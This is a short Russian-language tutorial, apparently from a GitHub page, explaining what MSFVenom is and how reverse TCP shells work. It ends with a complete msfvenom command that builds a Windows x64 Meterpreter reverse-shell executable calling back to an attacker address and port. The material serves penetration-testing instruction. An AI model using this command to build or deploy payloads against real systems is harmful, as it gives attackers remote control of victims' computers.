 #### Что такое MSFVenom
MSFVenom — бесплатный инструмент для создания полезной нагрузки (вредоносного файла). Это, так сказать, двоюродный брат Metasploit. С его помощью вы можете создавать различные полезные нагрузки, шелл-код и обратный шелл.
* msfvenom -h => отобразить справку
#### Как использовать MSFVenom:
Reverse TCP (обратное подключение, обратный шелл, пейлоад), — схема взаимодействия с целевым компьютером. Говоря простым языком. Мы создаем вредоносный файл (полезную нагрузку), после запуска которого целевой компьютер будет пытаться подключиться к нашему компьютеру. Это называется «бэкконнект» или в нашем случае обратный шелл, потому что «бэкконнект» — это понятие растяжимое.
Чтобы узнать, какие полезные нагрузки доступны введите команду:
* msfvenom -l payloads
#### Следующая команда создаст вредоносный исполняемый файл (обратный шелл), после запуска которого откроется сеанс Meterpreter.
* LHOST — IP-адрес вашего компьютера (атакующего).
* LPORT — порт вашего компьютера, который назначен серверу или программе.
* P — сокращение от «payload», полезная нагрузка для выбранной платформы.
* F — параметр, который задает тип файла, например, exe для Windows.
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.13 LPORT=4444 -f exe -a x64 -o /home/infosecaddicts/infoecaddicts.exe

